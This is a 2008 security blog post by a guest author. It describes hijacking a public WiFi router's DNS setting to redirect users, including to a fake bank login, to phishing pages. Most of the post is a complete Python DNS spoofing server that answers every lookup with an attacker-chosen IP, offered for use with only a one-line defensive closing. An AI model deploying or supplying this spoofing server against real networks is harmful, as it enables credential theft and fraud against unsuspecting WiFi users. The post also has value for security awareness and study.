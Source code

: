 ```yaml
---
title: WiFi Ownage
author: pdp
guest: sam-aldis
date: Thu, 07 Feb 2008 10:59:13 GMT
template: post.pug
---
```


> This month GNUCITIZEN's guest blogger is Sam Aldis, the founder of [darkstar.me.uk](http://darkstar.me.uk/). Sam started as a blackhat/script kiddie but soon he has learned a life lesson when he broke into a big football(soccer) leagues site. Sam did not serve any sentence but he had to pay a hefty fine. This is how he turned into a whitehat and now he is in the process of setting up his own security company. These are his words:

I have recently been doing research into WiFi connections without wepkeys and where the attacker is able to change the primary DNS server on the router. This is actually a very serious problem as the attacker is able to get your credit card details or any other information you input without you even knowing.

Imagine you are at a hotel with your laptop. You connect to the WiFi that they provide and type in `www.google.com`, which brings up google's front page. The address bar says http://www.google.com and the page looks genuine so it is.. isn't it? However, attackers may could have got access to the router and changed the primary DNS server through many of the available methods in the wild, like [UPnP hacking](/blog/hacking-with-upnp-universal-plug-and-play), etc.

Theoretically, the attacker could use any IP address to pull the trick, as long as a DNS server was running behind the UDP port 53. But it would be more beneficial if the attacker is under control of this DNS server, so he/she is able to show the user what ever they want them to see. For example, the user could type in their bank's website address and end up at a phishing page but they wouldn't know because they would see their banks address in the title bar and the page could be made to look exactly the same (and auto-update itself through some PHP magic). When the user logs in, a fake DNS server will respond which will make the user go to the wrong IP address. As you can see this is a big threat that will affect anyone who hasn't secured their network.

I have created a python script which can act as a temporary DNS server which will direct all requests to a certain IP (keep checking [http://darkstar.me.uk](http://darkstar.me.uk) for updates). Here is the script that complies to the scenarios described above:

```html
# DNS Injection Server
# Created By fazed
# DNSQuery class adapted from Francisco Santos's
# code. why re-invent the wheel?

from socket import *

class DNSQuery:
 def __init__(self, data):
   self.data=data
   self.domain=''

   tipo = (ord(data[2]) >> 3) & 15
   if tipo == 0:
     ini=12
     lon=ord(data[ini])
     while lon != 0:
       self.domain+=data[ini+1:ini+lon+1]+'.'
       ini+=lon+1
       lon=ord(data[ini])

 def respond(self, ip):
   packet=''
   if self.domain:
     packet+=self.data[:2] + "\x81\x80"
     packet+=self.data[4:6] + self.data[4:6] + '\x00\x00\x00\x00'
     packet+=self.data[12:]
     packet+='\xc0\x0c'
     packet+='\x00\x01\x00\x01\x00\x00\x00\x3c\x00\x04'
     packet+=str.join('',map(lambda x: chr(int(x)), ip.split('.')))
   return packet

print ":: DNS Injection Server Started ::"
sh = socket(AF_INET, SOCK_DGRAM)
print "Socket Handle Created.."
sh.bind(('',53))
print "Socket Handle Bound To UDP Port 53"
ip = raw_input("IP to inject: ")
try:
   while 1:
       data, addr = sh.recvfrom(1024)
       print "DNS Request From:", addr[0]
       p = DNSQuery(data)
       print "Sending IP address:", ip
       sh.sendto(p.respond(ip),addr)
       print "Response Sent.."
except KeyboardInterrupt:
   print ":: DNS Injection Server Stoped ::"
   sh.close()
```

The bottom line is: secure your networks and don't trust public WiFi access points.
